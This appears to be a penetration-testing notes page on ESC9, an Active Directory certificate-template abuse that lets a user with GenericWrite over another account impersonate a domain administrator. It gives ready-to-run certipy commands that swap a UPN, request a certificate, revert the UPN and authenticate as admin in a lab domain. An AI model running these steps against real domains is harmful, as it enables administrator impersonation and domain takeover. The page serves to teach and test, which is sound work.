 # ESC9

## <mark style="color:yellow;">**ABOUT**</mark>

<mark style="color:red;">**ESC9**</mark> allows a user with **GenericWrite** (or equivalent control) over another domain user to impersonate any user (e.g., Domain Admin) by <mark style="color:purple;">**abusing a vulnerable certificate template that does not enforce UPN/SAN validation**</mark>. The attacker temporarily changes the controlled user's UPN to the victim's (e.g., administrator), requests a certificate, and then reverts the UPN. The issued certificate allows authentication as the victim.&#x20;

## <mark style="color:yellow;">FLOW</mark>

We need 2 users: User 1 who has **GenericWrite**, **GenericAll**, or **WriteProperty** over User2

* Then we change the UPN of User2 to User3 (user who we want to impersonate, admin),&#x20;
* Requesting certificate for User2 and tricking CA because of absent validation.&#x20;
* Then we revert back the UPN.&#x20;
* And authenticate with certificate.

## <mark style="color:yellow;">**EXPLOITATION**</mark>

#### Temporarily set user2’s UPN to admin

```bash
certipy account update -username "user1@militech.local" -hashes "aad3b435b51404eeaad3b435b51404ee" -user user2 -upn admin
```

#### Request certificate as user2 (with UPN = admin)

```bash
certipy req -username "user2@militech.local" -hashes "aad3b435b51404eeaad3b435b51404ee" -target ca.militech.local -ca militech-DC01-CA -template CertifiedAuthentication
```

#### Revert user2’s UPN back to original

```bash
certipy account update -username "user1@militech.local" -hashes "aad3b435b51404eeaad3b435b51404ee" -user user2 -upn "user2@militech.local"
```

#### Authenticate with the certificate as admin

```bash
certipy auth -pfx admin.pfx -domain militech.local -target 13.13.13.13
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template" %}
